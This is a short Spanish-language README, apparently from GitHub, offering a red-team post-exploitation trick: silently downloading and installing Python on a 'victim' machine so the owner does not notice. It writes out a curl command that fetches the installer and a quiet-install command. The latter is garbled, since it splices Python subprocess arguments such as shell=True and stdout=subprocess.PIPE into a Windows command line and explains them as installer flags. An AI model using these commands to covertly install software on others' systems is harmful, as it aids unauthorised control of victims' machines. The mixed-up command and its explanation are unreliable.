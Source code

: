 # tecnica red team (post explotación)
                                             
![Art Love GIF](https://media2.giphy.com/media/v1.Y2lkPTc5MGI3NjExMjdrdWl6dTg3eHMwcnhxZjhpM3VmaTJsdzhrbzZlaGljaW4ydmd4MCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/VTRUeNCbZECfhV9o7E/giphy.gif)

Instala Python sin que tu "víctima" se dé cuenta.

# ¿Como funciona?
### Explicación del Comando

Este comando se divide en dos partes principales: **descarga** e **instalación** de Python. A continuación, se explica cada paso:

#### **1. Descarga el instalador de Python**

``curl https://www.python.org/ftp/python/3.11.4/python-3.11.4-amd64.exe --output python-3.11.4-amd64.exe``

* Utiliza curl para descargar la versión 3.11.4 de Python desde el sitio oficial.
* Guarda el archivo como python-3.11.4-amd64.exe en el directorio actual.

#### **2. Ejecuta el instalador de Python en modo silencioso**

``python-3.11.4-amd64.exe /quiet InstallAllUsers=1 PrependPath=1 Include_test=0, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE``

* /quiet: Instala Python sin mostrar ventanas ni requerir interacción.
* InstallAllUsers=1: Lo instala para todos los usuarios del sistema.
* PrependPath=1: Añade Python al PATH automáticamente.
* Include_test=0: Excluye archivos de prueba.
* shell=True: indica que se ejecutara en la consola de comandos
* stdout=subprocess.PIPE: Redirige la salida estándar (stdout) del comando ejecutado para que sea capturada en Python.
* stderr=subprocess.PIPE: Captura los errores del comando.
* stdin=subprocess.PIPE:  Permite enviar datos al comando mientras se ejecuta.

